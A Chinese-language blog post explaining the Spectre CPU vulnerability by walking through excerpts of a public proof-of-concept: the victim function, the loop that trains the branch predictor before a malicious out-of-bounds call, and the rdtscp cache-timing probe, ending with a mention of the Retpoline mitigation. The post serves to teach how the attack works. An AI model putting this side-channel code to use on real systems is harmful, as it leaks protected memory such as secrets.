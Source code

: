 ```yaml
---
layout:     post
title:      Intel的CPU漏洞：Spectre
subtitle:   
date:       2018-01-14
author:     spin6lock
header-img: img/post-bg-mma-4.jpg
catalog: true
tags:
    - python
---
```

最近觉得越来越忙，写博客都没精力了。一定是太沉迷农药和刷即刻了

17年年底，18年年初，Intel被爆出了Meltdown（熔断）和Spectre（幽灵）漏洞。等Spectre攻击的POC出来以后，[去github围观了一下](https://github.com/Eugnis/spectre-attack)，真的非常精妙，好想贴上来分享一下。

```
void victim_function(size_t x)
{
    if (x < array1_size)
    {
        temp &= array2[array1[x] * 512];
    }
}
```

主要代码就在Source.c里面，实际生效的不到100行，真的很精致。victim_function是用来越权访问的，看代码是没有问题的，x不符合条件，就不能访问到对应的内存。但是因为分支预测器的原因，即使没有满足if的条件，若分支预测器觉得条件会成立，还是会一边执行if的条件判断，一边执行if内的代码。当然，判断if失败后，会将if内代码执行的结果抛弃掉的。妙就妙在这里，结果会被回滚，但是cache不会。于是只要测度array2哪里访问的比较快，就知道密文是什么了。

如何欺骗分支预测器呢？看这里：

```
        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--)
        {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++)
            {
            } /* Delay (can also mfence) */

            /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
            /* Avoid jumps in case those tip off the branch predictor */
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            /* Call the victim! */
            victim_function(x);
        }
```

跑5次满足if条件的调用，再跑一次不满足if条件的攻击。中间用位运算是为了避免额外的if语句会触动分支预测器。

测时间的逻辑在这：

```
        /* Time reads. Order is lightly mixed up to prevent stride prediction */
        for (i = 0; i < 256; i++)
        {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk); /* READ TIMER */
            junk = *addr; /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++; /* cache hit - add +1 to score for this value */
        }
```

用到了[高精度的rdtscp](http://www.felixcloutier.com/x86/RDTSCP.html)来计时，可以读入CPU计数器的读数。这里还硬编码了167和13进去，其实就是两个质数，目的就是让cache预读摸不着头脑，不会因为线性预读取干扰了测时。

为了对抗Spectre攻击，[Google推出了Retpoline方法](https://support.google.com/faqs/answer/7625886)，涉及到对可执行文件的二进制修改，还没看懂。。。
